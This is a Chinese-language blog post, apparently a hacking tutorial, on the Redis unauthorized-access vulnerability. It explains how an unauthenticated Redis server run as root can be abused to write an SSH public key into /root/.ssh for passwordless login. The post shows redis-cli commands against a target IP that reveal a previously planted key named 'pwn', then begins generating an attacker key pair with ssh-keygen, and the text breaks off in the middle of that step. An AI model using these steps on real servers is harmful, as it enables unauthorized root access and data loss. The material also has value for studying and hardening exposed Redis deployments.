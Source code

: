 ```yaml
---
title: 'Redis未授权访问'
layout: post
tags: 
  - Redis 
  - sec
  - hack
comments: true
share: true
category: sec
---
```

Redis未授权访问



<strong>Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据.这个漏洞主要针对Linux服务器,如果redis服务器使用root权限启动,并且没有配置认证,就可能导致redis数据丢失,服务器被添加用于ssh远程登录.可以通过公钥写入/root/.ssh目录,就可以免密码登陆</strong>

<strong>1.测试漏洞:</strong>

我们尝试登录redis服务器,查看之前数据库之前有没有被写入公钥.

如有的话,则可以查看一下,说不定能看到私钥:
<pre lang="python" line="1" escaped="true">root@kali:~/.ssh# redis-cli -h 目标ip
redis 目标IP:6379&gt; keys *
1) "pwn"
(1.07s)
redis 目标IP:6379&gt; get pwn
"\n\n\nssh-rsa                  AAAAB3NzaC1yc2EAAAADAQABAAABAQDCajTixIkl4vUUiYb2D7FYWPtey4+NqzaQnoED7nomh+QOtjMJXwNAUBQHIZDlJtB4Upmj++NCis04eZbv9qerHORO+I6Lghkm0FvDetfHCDm5oixyLQD1Qd2pi0dMe4AwHJTYbNRcayVdWHRpqOxpiW8xSMaobSnpq1mg6HWjojZFFBSdSa92dNHDQVcZUPJknD74dkzKRLWxgWxBqRoCAKpvTOIyfb4kZx5VR9VQfUK2qSEdFYyvAsJn22PoZ6FOaIHf9NY8kMNK6BqJygJt8x/kfOZflogaNJLd5g4K/LfQVe1eC75uKlqn4Gkjb4pqwpHs4Zd5a19siOPLTCX/ hei123\n\n\n\n"</pre>
<a href="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/11.jpg"><img class="alignnone size-medium wp-image-149" title="11" src="http://b404-wordpress.stor.sinaapp.com/uploads/2015/11/11-300x99.jpg" alt="" width="300" height="99" /></a>

若没有为空的话,则可以:

0x01 在本地生成ssh公钥和私钥:
<pre lang="c" line="1" escaped="true">root@kali:~# cd .ssh
root@kali:~/.ssh# ls
root@kali:~/.ssh# ssh-keygen -t rsa -C "hei123"
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
1a:ac:28:a8:c0:a2:f7:11:aa:c5:43:7b:0e:cc:82:54 hei123
The key's randomart image is:
+--[ RSA 2048]----+
|                 |
|                 |
|   E             |
|  .  .           |
| .. . o S        |
|== + o o         |
|B.@ + .          |